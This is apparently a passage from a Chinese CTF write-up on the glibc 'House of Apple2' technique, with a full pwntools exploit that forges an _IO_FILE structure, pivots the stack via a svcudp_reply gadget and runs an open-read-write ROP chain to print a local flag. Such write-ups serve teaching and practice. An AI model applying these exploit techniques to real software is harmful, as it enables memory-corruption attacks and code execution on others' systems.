fake_io = fake_io.ljust(0xc8, b'\x00')  # adjust to vtable
fake_io += p64(libc_base+libc.sym['_IO_wfile_jumps'])  # fake vtable
fake_io += p64(wide_vtable_addr)
fake_io += p64(system)
edit(2,0x100,fake_io)
edit(1,0x20,p64(0)*2+b' sh;')
dbg()
ex1t()
#dbg()

ita()

```

## apple2打orw详解

前面的内容都一样，有几步的IO构造不一样，我直接放出exp来进行调试

### EXP

```
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
fn='./test'
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
eir = 0
if eir == 1:
    p=remote("",)
elif eir == 0:
    p=process(fn)
elf=ELF(fn)

def open_gdb_terminal():
    pid = p.pid
    gdb_cmd = f"gdb -ex 'attach {pid}' -ex 'set height 0' -ex 'set width 0'"
    subprocess.Popen(["gnome-terminal", "--geometry=120x64+0+0", "--", "bash", "-c", f"{gdb_cmd}; exec bash"])

def dbg():
    open_gdb_terminal()
    pause()


sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ita = lambda : p.interactive()
l64 = lambda : u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
ll64 = lambda s : u64(p.recv(s).ljust(8,b'\x00'))
pt = lambda s : print("leak----->",hex(s))

def menu(choice):
    sla("Your choice:\n",str(choice))
def add(index,size):
    menu(1)
    sla("index:\n",str(index))
    sla("Size:\n",str(size))
def dele(index):
    menu(2)
    sla("index:\n",str(index))

def edit(index,size,content):
    menu(3)
    sla("index:\n",str(index))
    sla("size:\n",str(size))
    sa("context: \n",content)

def show(index):
    menu(4)
    sla("index:\n",str(index))

def ex1t():
    menu(5)


ogs=[0xebc81,0xebc85,0xebc88,0xebce2]
add(0,0x440)
add(1,0x10)
add(2,0x430)
add(3,0x10)
dele(0)
add(4,0x460)
#dbg()
show(0)
p.recv(10)
libc_base=l64()-0x21b0e0
IO_list_all=libc_base+libc.sym['_IO_list_all']
edit(0,0x100,b'a'*0x10)
show(0)
ru(b'a'*0x10)
heap_base=ll64(3)-0x290
edit(0,0x100,p64(libc_base+0x21b0e0)*2)
dele(2)
edit(0,0x100,p64(0)*3+p64(IO_list_all-0x20))
add(5,0x470)
file_addr=heap_base+0x700
IO_wide_data_addr=file_addr
wide_vtable_addr=file_addr+0xe8-0x68
_IO_stdfile_2_lock=libc_base+0x21ca60
og=libc_base+ogs[0]
system=libc_base+libc.sym['system']
leave_ret=libc_base+0x4da83
magic=libc_base+0x16a050+26
rdi=libc_base+0x000000000002a3e5
rsi=libc_base+0x000000000002be51
rdx_rbx=libc_base+0x00000000000904a9
openn=libc_base+libc.sym['open']
readd=libc_base+libc.sym['read']
writee=libc_base+libc.sym['write']
orw_addr=heap_base+0xb70
orw=b'./flag\x00\x00'
orw+=p64(rdx_rbx)+p64(0)+p64(orw_addr+0x100)+p64(rdi)+p64(orw_addr)+p64(rsi)+p64(0)+p64(openn)
orw+=p64(rdi)+p64(3)+p64(rsi)+p64(orw_addr+0x200)+p64(rdx_rbx)+p64(0x30)*2+p64(readd)
orw+=p64(rdi)+p64(1)+p64(rsi)+p64(orw_addr+0x200)+p64(rdx_rbx)+p64(0x30)*2+p64(writee)
orw=orw.ljust(0x128,b'\x00')+p64(leave_ret)
edit(4,0x300,orw)
fake_io = b""
fake_io += p64(0)  # _IO_read_end
fake_io += p64(0)  # _IO_read_base
fake_io += p64(0)  # _IO_write_base
fake_io += p64(1)  # _IO_write_ptr
fake_io += p64(0)  # _IO_write_end
fake_io += p64(0)  # _IO_buf_base;
fake_io += p64(0)  # _IO_buf_end should usually be (_IO_buf_base + 1)
fake_io += p64(orw_addr)  # _IO_save_base
fake_io += p64(0)*3  # from _IO_backup_base to _markers
fake_io += p64(0)  # the FILE chain ptr
fake_io += p32(2)  # _fileno for stderr is 2
fake_io += p32(0)  # _flags2, usually 0
fake_io += p64(0xFFFFFFFFFFFFFFFF)  # _old_offset, -1
fake_io += p16(0)  # _cur_column
fake_io += b"\x00"  # _vtable_offset
fake_io += b"\n"  # _shortbuf[1]
fake_io += p32(0)  # padding
fake_io += p64(_IO_stdfile_2_lock)  # _IO_stdfile_1_lock
fake_io += p64(0xFFFFFFFFFFFFFFFF)  # _offset, -1
fake_io += p64(0)  # _codecvt, usually 0
fake_io += p64(IO_wide_data_addr)  # _IO_wide_data_1
fake_io += p64(0) * 3  # from _freeres_list to __pad5
fake_io += p32(0xFFFFFFFF)  # _mode, usually -1
fake_io += b"\x00" * 19  # _unused2
fake_io = fake_io.ljust(0xc8, b'\x00')  # adjust to vtable
fake_io += p64(libc_base+libc.sym['_IO_wfile_jumps'])  # fake vtable
fake_io += p64(wide_vtable_addr)
fake_io += p64(magic)
edit(2,0x100,fake_io)

dbg()
ex1t()
#dbg()
ita()

```

### 分析：

不同的点在于IO结构中的\_IO\_save\_base这次被我们赋值成了orw\_addr

以及magic的内容，这次我们执行的是下面这段gadget，这段gadget有基于索引对于rbp进行赋值，借此我们可以达到栈迁移的效果，从而执行orw

```
<svcudp_reply+26>:  mov  rbp,QWORD PTR [rdi+0x48]
<svcudp_reply+30>:  mov  rax,QWORD PTR [rbp+0x18]
<svcudp_reply+34>:  lea  r13,[rbp+0x10]
<svcudp_reply+38>:  mov  DWORD PTR [rbp+0x10],0x0
<svcudp_reply+45>:  mov  rdi,r13
<svcudp_reply+48>:  call  QWORD PTR [rax+0x28]
```

和上面的system一样，此时rdi是指向0x404700也就是file\_addr的，此时对于rdi的索引就是0x48，所以file\_addr+0x48处的内容会被赋值给rbp，此时我们将这个位置处改为orw\_addr，再基于下面的call调用，我们就能实现栈迁移打orw了，而file\_addr+0x48处正好是IO结构体中的\_IO\_save\_base了

下面我们讲讲对于call调用的赋值，调用的是&rax+0x28处的内容，我们把这个内容改为leave;ret的话就能实现栈迁移了

而rax的赋值是基于rbp的0x18偏移处,而此时rbp已经被我们迁移到了orw\_addr处，只要我们将orw\_addr+0x18处改为一个可控制的地址，再基于这个地址+0x28处写上leave;ret即可完成栈迁移

巧妙的是，在我们的orw构造中，我么先用pop\_rdx\_rbx进行寄存器赋值，而rbx正好对应orw\_addr+0x18处，并且rbx是我们调用orw用不到的寄存器，所以我们在这里写上一个可控的堆地址即可，这里我写的是orw\_addr+0x100处，而read和write的地址都是orw\_addr+0x200处，不会产生冲突，此时我们把orw\_addr+0x100处距离0x28偏移处写上leave;ret即可调用完成，而orw\_addr我写入的是能够控制的一个chunk的fd指针处，便于我们对chunk进行写入

下面我们来看看函数调用

调用\_IO\_flush\_all\_lockp刷新所有的内容



调用 IO\_wfile\_jump 中的\_IO\_wfile\_overflow



调用\_IO\_wdoallocbuf



调用gadget



调用leave ret



执行orw



输出结果


